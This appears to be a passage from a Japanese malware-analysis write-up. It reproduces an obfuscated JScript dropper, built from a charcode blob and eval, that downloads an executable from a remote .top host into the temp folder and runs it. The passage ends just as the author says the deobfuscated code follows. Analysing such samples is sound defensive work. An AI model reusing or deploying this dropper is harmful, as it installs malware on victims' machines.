 ```javascript
var b = String.fromCharCode(118, 97, 114, 32, 106, 32, 61, 32, 91, 34, 87, 83, 99, 114, 105, 112, 116, 46, 83, 104, 101, 108, 108, 34, 44, 34, 83, 99, 114, 105, 112, 116, 105, 110, 103, 46, 70, 105, 108, 101, 83, 121, 115, 116, 101, 109, 79, 98, 106, 101, 99, 116, 34, 44, 34, 83, 104, 101, 108, 108, 46, 65, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 34, 44, 34, 77, 105, 99, 114, 111, 115, 111, 102, 116, 46, 88, 77, 76, 72, 84, 84, 80, 34, 93, 59, 10, 118, 97, 114, 32, 117, 32, 61, 32, 91, 34, 97, 97, 97, 99, 99, 46, 34, 44, 32, 34, 58, 47, 34, 44, 32, 34, 103, 112, 111, 122, 103, 122, 101, 106, 103, 111, 122, 106, 34, 44, 32, 34, 103, 108, 107, 114, 103, 106, 111, 101, 103, 106, 110, 102, 111, 122, 112, 107, 102, 112, 122, 101, 34, 44, 32, 34, 116, 111, 112, 34, 44, 32, 34, 119, 105, 110, 51, 50, 34, 44, 32, 34, 99, 114, 121, 112, 116, 48, 114, 34, 44, 32, 34, 98, 105, 110, 97, 114, 105, 101, 115, 34, 44, 32, 34, 115, 119, 101, 101, 116, 118, 112, 110, 34, 44, 32, 34, 46, 34, 44, 32, 34, 97, 114, 99, 104, 34, 44, 32, 34, 101, 120, 101, 34, 44, 32, 34, 104, 116, 116, 112, 34, 44, 32, 34, 47, 34, 93, 59, 10, 10, 116, 114, 121, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 115, 104, 32, 61, 32, 67, 114, 40, 48, 41, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 102, 115, 32, 61, 32, 67, 114, 40, 49, 41, 59, 10, 10, 32, 32, 32, 32, 118, 97, 114, 32, 115, 50, 32, 61, 32, 69, 120, 40, 34, 116, 101, 109, 112, 34, 41, 32, 43, 32, 34, 92, 92, 34, 32, 43, 32, 117, 91, 50, 42, 50, 43, 49, 93, 32, 43, 32, 32, 117, 91, 55, 43, 51, 45, 49, 93, 43, 32, 117, 91, 53, 42, 50, 43, 49, 93, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 102, 105, 32, 61, 32, 102, 115, 46, 67, 114, 101, 97, 116, 101, 84, 101, 120, 116, 70, 105, 108, 101, 40, 115, 50, 44, 116, 114, 117, 101, 41, 59, 10, 32, 32, 32, 32, 102, 105, 46, 87, 114, 105, 116, 101, 40, 80, 116, 40, 50, 53, 54, 53, 52, 53, 52, 52, 56, 52, 53, 49, 52, 56, 53, 52, 56, 52, 53, 52, 56, 55, 56, 52, 56, 44, 32, 34, 107, 103, 106, 103, 101, 112, 111, 103, 61, 107, 102, 79, 73, 73, 73, 101, 101, 111, 101, 122, 106, 61, 61, 34, 41, 41, 59, 10, 32, 32, 32, 32, 102, 105, 46, 67, 108, 111, 115, 101, 40, 41, 59, 10, 32, 32, 32, 32, 115, 104, 46, 114, 117, 110, 40, 115, 50, 41, 59, 10, 125, 10, 99, 97, 116, 99, 104, 32, 40, 101, 114, 114, 41, 10, 123, 10, 125, 10, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 69, 120, 40, 83, 41, 32, 123, 10, 32, 32, 32, 32, 114, 101, 116, 117, 114, 110, 32, 115, 104, 46, 69, 120, 112, 97, 110, 100, 69, 110, 118, 105, 114, 111, 110, 109, 101, 110, 116, 83, 116, 114, 105, 110, 103, 115, 40, 34, 37, 34, 32, 43, 32, 83, 32, 43, 32, 34, 37, 34, 41, 59, 10, 125, 10, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 80, 116, 40, 67, 44, 65, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 88, 32, 61, 32, 67, 114, 40, 51, 41, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 84, 32, 61, 32, 117, 91, 49, 50, 93, 32, 43, 32, 117, 91, 55, 37, 54, 93, 32, 43, 32, 117, 91, 49, 51, 93, 32, 43, 32, 117, 91, 51, 93, 32, 43, 32, 117, 91, 57, 93, 32, 43, 32, 117, 91, 50, 43, 50, 42, 48, 93, 32, 43, 32, 117, 91, 49, 48, 50, 57, 42, 48, 93, 32, 43, 32, 117, 91, 56, 42, 49, 48, 47, 50, 48, 42, 50, 93, 32, 43, 32, 117, 91, 57, 93, 32, 43, 32, 117, 91, 52, 93, 32, 43, 32, 117, 91, 49, 51, 93, 32, 43, 32, 117, 91, 55, 93, 32, 43, 32, 117, 91, 49, 51, 93, 32, 43, 32, 117, 91, 49, 48, 93, 32, 43, 32, 32, 117, 91, 49, 48, 43, 54, 47, 50, 93, 32, 43, 32, 117, 91, 55, 45, 50, 93, 32, 43, 32, 117, 91, 49, 52, 43, 53, 45, 54, 93, 32, 43, 32, 117, 91, 54, 93, 32, 43, 32, 117, 91, 57, 93, 32, 43, 32, 117, 91, 49, 49, 93, 59, 10, 10, 32, 32, 32, 32, 88, 46, 111, 112, 101, 110, 40, 39, 71, 69, 84, 39, 44, 32, 84, 32, 43, 32, 34, 63, 112, 61, 114, 38, 108, 61, 34, 32, 43, 32, 67, 44, 32, 102, 97, 108, 115, 101, 41, 59, 10, 32, 32, 32, 32, 88, 46, 83, 101, 116, 82, 101, 113, 117, 101, 115, 116, 72, 101, 97, 100, 101, 114, 40, 34, 85, 115, 101, 114, 45, 65, 103, 101, 110, 116, 58, 34, 44, 32, 34, 77, 97, 100, 101, 32, 98, 121, 32, 98, 52, 99, 99, 52, 114, 100, 49, 34, 41, 59, 10, 32, 32, 32, 32, 88, 46, 115, 101, 110, 100, 40, 65, 41, 59, 10, 32, 32, 32, 32, 114, 101, 116, 117, 114, 110, 32, 88, 46, 114, 101, 115, 112, 111, 110, 115, 101, 116, 101, 120, 116, 59, 10, 125, 10, 10, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 67, 114, 40, 78, 41, 32, 123, 10, 32, 32, 32, 32, 114, 101, 116, 117, 114, 110, 32, 110, 101, 119, 32, 65, 99, 116, 105, 118, 101, 88, 79, 98, 106, 101, 99, 116, 40, 106, 91, 78, 93, 41, 59, 10, 125, 10, 10);
eval(b);
} catch (err) {}
```

`eval` を `console.log` に書き換えて実行し、整形すると以下のようなコードが得られました。
